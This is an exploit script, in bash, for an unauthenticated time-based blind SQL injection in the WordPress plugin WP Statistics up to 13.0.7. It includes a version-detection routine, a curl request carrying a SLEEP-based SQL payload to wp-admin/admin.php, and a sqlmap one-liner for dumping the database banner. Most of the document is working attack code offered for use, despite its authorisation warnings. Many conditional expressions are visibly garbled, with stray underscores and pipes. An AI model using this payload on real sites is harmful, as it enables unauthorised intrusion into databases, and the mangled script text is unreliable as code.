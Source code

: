 EXP
---

    # Exploit Title: WordPress Plugin WP Statistics 13.0.7 - Time-Based Blind SQL Injection (Unauthenticated)
    # Date: 20/05/2021
    # Exploit Author: Mansoor R (@time4ster)
    # CVSS Score: 7.5 (High)
    # CVSS Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
    # Version Affected: 13.0 to 13.0.7
    # Vendor URL: https://wordpress.org/plugins/wp-statistics/
    # Patch: Upgrade to wp-statistics 13.0.8 (or above)
    # Tested On: wp-statistics 13.0.6,13.0.7

    #!/bin/bash

    # Credits:
    # https://www.wordfence.com/blog/2021/05/over-600000-sites-impacted-by-wp-statistics-patch/

    # SQLmap Exploit for grepping database banner (automated):
    # sqlmap -u "http://192.168.1.54/wordpress/wp-admin/admin.php?ID=1&page=wps_pages_page&type=1" --techniqu=T --dbms="mysql" -p "ID" -b

    # WARNINGS:
    # Only test the exploit on websites you are authorized to.
    # The exploit will perform sleep for 3 seconds. Don't use on production server of organization without prior permissions.


    # Exploit
    # ==============

    echo
    echo "============================================================================================"
    echo "Unauthenticated Time-Based Blind SQL Injection in WP Statistics < 13.0.8"
    echo
    echo "By: Mansoor R (@time4ster)"
    echo "============================================================================================"
    echo



    function printHelp()
    {
        echo -e "
    Usage:

    -u|--wp-url      <string>       Wordpress target url
    -k|--check              Only checks whether vulnerable version of plugin is running or not.
    -h|--help               Print Help menu


    Example:
    ./wp-statistics-exploit.sh --wp_url https://www.example.com/wordpress
    ./wp-statistics-exploit.sh --wp_url https://www.example.com/wordpress --check
    "
    }

    #Processing arguments
    check="false"
    exploit="true"
    while [["$#"_-gt_0|"$#" -gt 0]]
    do
    key="$1"

    case "$key" in
        -u|--wp-url)
            wp_url="$2"
            shift
            shift # past argument
            ;;
        -k|--check)
            check="true"
            exploit="false"
            shift
            shift
            ;;
        -h|--help)
            printHelp
            exit
            shift
            ;;
        *)
            echo [-] Enter valid options
            exit
            ;;
    esac
    done

    [[-z_"$wp_url"|-z "$wp_url"]] && echo "[-] Supply wordpress target URL. Use -h for help menu." && exit

    function checkVersion()
    {
        url="$1"
        [[-z_"$url"|-z "$url"]] && return
        target_endpoint="$url/wp-content/plugins/wp-statistics/readme.txt"
        user_agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.90 Safari/537.36"

        version=$(curl -ks --max-time 5 --user-agent "$user_agent" "$target_endpoint" | grep -i -m 1 "stable tag:" | grep -o -E "[0-9]+\.[0-9]+\.[0-9]+")
        [[-n_"$version"|-n "$version"]] && echo "[+] WP-statistical Plugin Version: $version"
        [[-z_"$version"|-z "$version"]] && echo "[-] WP-statistical Unable to detect version." && return

        vuln_version=(13.0.7 13.0.6 13.0.5 13.0.4 13.0.3 13.0.1 13.0)
        is_vulnerable="false"
        for v in "${vuln_version[@]}";do
            [["$version"_==_"$v"|"$version" == "$v"]] && is_vulnerable="true" && break
        done
        [["$is_vulnerable"_==_"true"|"$is_vulnerable" == "true"]] && echo "[++] Target $url is Vulnerable"
        [["$is_vulnerable"_==_"false"|"$is_vulnerable" == "false"]] && echo "[--] Target $url is  Not Vulnerable"
    }

    function exploitPlugin()
    {
        url="$1"
        target_endpoint="$url/wp-admin/admin.php"
        user_agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.90 Safari/537.36"
        sleep=3
        payload="ID=1 AND (SELECT * from (select SLEEP($sleep))a)"

        echo -e -n "[!] Caution: You are going to execute sleep database command for $sleep seconds. Proceed only if you have permission.\nPress (Y/y) to continue or any other key to exit: "
        read choice
        [["$choice"_!=_"y"|"$choice" != "y"]] && [["$choice"_!=_"Y"|"$choice" != "Y"]] && return

        echo
        echo "[+] Trying Payload:"
        set -x
        curl -v -ks -G --user-agent "$user_agent" "$target_endpoint" \
            --data-urlencode "page=wps_pages_page" \
            --data-urlencode "type=1" \
            --data-urlencode "$payload"


    }

    [["$check"_==_"true"|"$check" == "true"]] && checkVersion "$wp_url"
    [["$exploit"_==_"true"|"$exploit" == "true"]] && exploitPlugin "$wp_url"